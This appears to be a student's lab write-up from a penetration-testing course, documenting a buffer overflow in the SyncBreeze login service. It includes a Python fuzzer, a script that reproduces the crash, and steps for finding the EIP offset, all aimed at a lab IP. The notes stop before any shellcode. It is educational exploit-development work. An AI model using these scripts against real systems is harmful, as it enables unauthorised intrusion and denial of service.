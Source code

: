 # 11.1.2 Discovering the Vulnerability
## Practice - Discovering the Vulnerability

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Build the fuzzer and replicate the SyncBreeze crash.
To start we must first build a fuzzer using python. We can use the following code:
```python
#!/usr/bin/python
import socket
import time
import sys

size = 100

while(size < 2000):
  try:
    print "\nSending evil buffer with %s bytes" % size
    
    inputBuffer = "A" * size
    
    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.222.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://192.168.222.10/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"
    
    buffer += content

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(("192.168.222.10", 80))
    s.send(buffer)
    
    s.close()

    size += 100
    time.sleep(10)
    
  except:
    print "\nCould not connect!"
    sys.exit()
```
We must now start the syncbreeze service and attach Immunity Debugger to said service. Once this is done we can begin our fuzzer script, watching the Immunity Debugger window for crashes.
We see that the Immunity Debugger notes a crash at 800 bytes.


2.  Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?
The ESP register contains "A's" and we can also see the "A" characters on the stack itself.
![[Pasted image 20220706175131.png]]


# 11.2.4 Controlling EIP
## Practice - Controlling EIP

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Write a standalone script to replicate the crash.
The following python3 script will lead to a crash:
```python
#!/usr/bin/python
import socket

try:
	print("\nAttempting to send buffer...")

	size = 800
	inputbuffer = "A" * size

	content = "username=" + inputbuffer + "&password=A"

	buffer = "POST /login HTTP/1.1\r\n"
	buffer += "Host: 192.168.222.10\r\n"
	buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
	buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buffer += "Accept-Language: en-US,en;q=0.5\r\n"
	buffer += "Referer: http://192.168.222.10/login\r\n"
	buffer += "Connection: close\r\n"
	buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
	buffer += "Content-Length: "+str(len(content))+"\r\n"
	buffer += "\r\n"
	  
	buffer += content

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	  
	s.connect(("192.168.222.10", 80))
	encoded = buffer.encode()
	s.send(encoded)
		  
	s.close()

	print("\nSuccess!")

except:
	print("\nCould not connect")
```

2.  Determine the offset within the input buffer to successfully control EIP.
To do this we simply need to create a pattern buffer with a length of 800 using the metasploit tool "msf-pattern_offset". Once we have this buffer generated we replace the "inputbuffer" variable in our previous code with this newly created pattern. We now see a our pattern has overwritten the EIP register
![[Pasted image 20220706230833.png]]

We can now use msf-pattern_offset to identify the exact location of this in our buffer is at offset 780. Accounting for this, we adjust our initial script:
```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 16

inputBuffer = filler + eip + buffer
```

Upon running the script again we will notice in Immunity Debugger that 

3.  Update your standalone script to place a unique value into EIP to ensure your offset is correct.